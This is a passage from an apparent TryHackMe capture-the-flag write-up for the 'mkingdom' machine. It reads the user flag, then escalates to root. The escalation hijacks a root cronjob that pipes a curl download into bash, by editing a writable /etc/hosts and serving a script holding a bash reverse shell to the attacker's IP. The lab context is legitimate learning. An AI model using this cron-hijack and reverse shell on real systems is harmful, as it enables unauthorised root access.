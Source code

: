 - Since noone on the system has permissions to use `/bin/cat`, we will use `/usr/lib/klibc/bin/cat`.

  ```
  mario@mkingdom:~$ /usr/lib/klibc/bin/cat user.txt 
  thm{030a769febb1b3291da1375234b84283}
  ```

---

## 👑 Root Privilege Escalation

- For root I used `pspy` and found a cronjob that's downloading a bash script.

  ```
  2025/05/31 17:41:50 CMD: UID=0    PID=1      | /sbin/init
  2025/05/31 17:42:01 CMD: UID=0    PID=2489   | bash 
  2025/05/31 17:42:01 CMD: UID=0    PID=2488   | curl mkingdom.thm:85/app/castle/application/counter.sh 
  2025/05/31 17:42:01 CMD: UID=0    PID=2487   | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log  
  2025/05/31 17:42:01 CMD: UID=0    PID=2486   | CRON 
  2025/05/31 17:42:01 CMD: UID=0    PID=2493   | bash 
  ```
  
- The plan now is to check `/etc/hosts`, replace the IP with our IP, create a full path to this script with reverse shell inside. Since we have write permission to `/etc/hosts`, let's do it!

  ```
  mario@mkingdom:~$ ls -al /etc/hosts
  -rw-rw-r-- 1 root mario 342 Jan 26  2024 /etc/hosts
  
  mario@mkingdom:~$ cat /etc/hosts
  127.0.0.1       localhost
  [YOUR-THM-IP]   mkingdom.thm
  127.0.0.1       backgroundimages.concrete5.org
  127.0.0.1       www.concrete5.org
  127.0.0.1       newsflow.concrete5.org
  
  # The following lines are desirable for IPv6 capable hosts
  ::1     ip6-localhost ip6-loopback
  fe00::0 ip6-localnet
  ff00::0 ip6-mcastprefix
  ff02::1 ip6-allnodes
  ff02::2 ip6-allrouters
  ```
  
- Now, on your local machine create a directory `/app/castle/application/counter.sh` with bash script containing a classic bash reverse shell.

  ```
  cat counter.sh 
  #!/bin/bash
  
  bash -i >& /dev/tcp/[YOUR-THM-IP]/5555 0>&1
  ```
